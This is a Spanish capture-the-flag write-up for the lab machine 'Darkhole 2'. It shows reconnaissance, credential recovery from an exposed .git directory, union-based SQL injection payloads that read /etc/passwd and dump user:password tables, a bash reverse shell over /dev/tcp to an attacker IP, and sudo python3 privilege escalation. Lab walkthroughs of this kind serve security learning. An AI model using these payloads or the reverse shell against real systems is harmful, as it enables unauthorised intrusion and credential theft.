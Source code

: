 ```yaml
---
title: "Darkhole 2"
description: "Darkhole 2"
pubDate: 2025-05-20
---
```


https://www.youtube.com/watch?v=xYLNxmuH9Sg

# Fase de reconocimiento

## Descubrimiento de Host

````
nmap -sP 10.0.2.0/24
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240514190739.png)

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.0.2.3
````

80
22

# Fase de ataque

## SQLI

En el login.php probamos si es vulnerable a SQLI.
Con Burpsuite interceptamos la conexion y probamos.
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240514192423.png)
URLencodeamos
No funciona

## Git

La web contiene un proyecto Github .gitor
Lo descargamos

````
wget -r http://<ip>/.git
````

Miramos los logs del proyecto git

````
git log
````

Ver los cambios

````
git show <commit>
````

Encontramos usuario y contraseña en texto claro

## SQLI

Modificar la cabecera en el ?id=1 con ' order by 100-- - hasta encontrar la cantidad de columnas
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240514193204.png)
Insertamos la SQLI para visualizar datos. URLencodearlo

1. Ver bases de datos

````
' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
````

2. Leer datos de la maquina

````
' union select 1,2,load_file("/etc/passwd"),4,5,6 from information_schema.schemata-- -
````

3. Ver las tablas de una BBDD

````
' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema='<BBDD>'-- -
````

4. Ver las columnas de un tabla

````
' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_schema='<BBDD>' and table_name='<tabla>'-- -
````

5. Ver contenido de las columnas

````
' union select 1,2,group_concat(user,':',pass),4,5,6 from '<tabla>'-- -
````

Hay usuario y contraseña para SSH
3. Nos conectamos por SSH

````
ssh <user>@<ip>
````

\[-\] ==pwned!==

# Privilege Escalation

Para ver puertos abiertos

````
netstat -nat
````

Ver donde esta corriendo el servicio

````
ps -faux | grep <puerto>
````

Hacemos Port Forwarding para ver el puerto interno en nuestra maquina

Hay una RCE en la web

````
?cmd=<comando>
````

1. Nos ponemos en escucha por el puerto 443

````
nc -nlvp 443
````

2. Mandamos la Reverse Shell

````
?cmd=bash -c "bash -i>& /dev/tcp/<ipA>/<port> 0>&1"
````

\[-\]
Vemos la contraseña del usuario en le historio de la terminal

````
cat .bash_history
````

Miramos privilegios con la contraseña encontrada

````
sudo -l
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240514200110.png)
Lanzamos python3 como root y lanzamos una bash

````
sudo -u root pyhton3
	import os
	os.system("bash")
````

\[+\] ==pwned!==
